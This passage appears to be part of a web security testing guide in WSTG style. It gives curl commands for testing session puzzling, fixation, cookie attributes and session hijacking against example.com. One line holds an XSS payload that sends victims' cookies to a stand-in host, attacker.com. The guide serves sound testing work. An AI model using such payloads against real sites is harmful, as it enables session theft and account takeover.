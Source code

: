 ```bash
# Identify session variables
curl -s -I https://example.com/login | grep -i "set-cookie"
curl -s -I https://example.com/register | grep -i "set-cookie"
curl -s -I https://example.com/reset_password | grep -i "set-cookie"

# Test for session variable reuse across different functions
# 1. Start a password reset flow
curl -s -c cookies_reset.txt https://example.com/forgot_password -d "email=user@example.com"
# 2. Extract any session variables
reset_session=$(grep -i "session" cookies_reset.txt | awk '{print $NF}')
# 3. Try to use these session variables in a different context
curl -s -b "session=$reset_session" https://example.com/profile

# Test for session puzzling via parameter pollution
curl -s "https://example.com/process?action=reset&action=admin"

# Test for session variable overwriting
# 1. Login and get a session cookie
curl -s -c cookies.txt -X POST -d "username=user1&password=password1" https://example.com/login
# 2. Extract the session cookie
session_cookie=$(grep -i "session" cookies.txt | awk '{print $NF}')
# 3. Start a password reset flow with the same session
curl -s -b "session=$session_cookie" https://example.com/forgot_password -d "email=user@example.com"
# 4. Try to access the profile page
curl -s -b "session=$session_cookie" https://example.com/profile
```

## WSTG-SESS-09: Testing for Session Hijacking

**Objective**: Identify vulnerable session cookies and hijack vulnerable cookies to assess the risk level.

### Commands

```bash
# Test for session cookie security attributes
curl -s -I https://example.com/login | grep -i "set-cookie" | grep -i "secure\|httponly\|samesite"

# Test for session fixation (which can lead to hijacking)
# 1. Get a session ID before authentication
pre_auth_session=$(curl -s -I https://example.com | grep -i "set-cookie" | grep -o "session=[^;]*")
# 2. Attempt to authenticate using the pre-existing session ID
curl -s -H "Cookie: $pre_auth_session" -X POST -d "username=user1&password=password1" https://example.com/login -v

# Test for XSS vulnerabilities that could lead to session hijacking
curl -s "https://example.com/search?q=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>"

# Test for MITM vulnerabilities (HTTP usage)
curl -s -I http://example.com/login | grep -i "set-cookie"

# Test for session ID in URL
curl -s https://example.com | grep -Eo "href=\"[^\"]*(\?|&)session=[^\"&]*\""

# Test for weak session ID generation
for i in {1..10}; do
  curl -s -I https://example.com/login | grep -i "set-cookie" | grep -o "session=[^;]*";
  sleep 1;
done
```
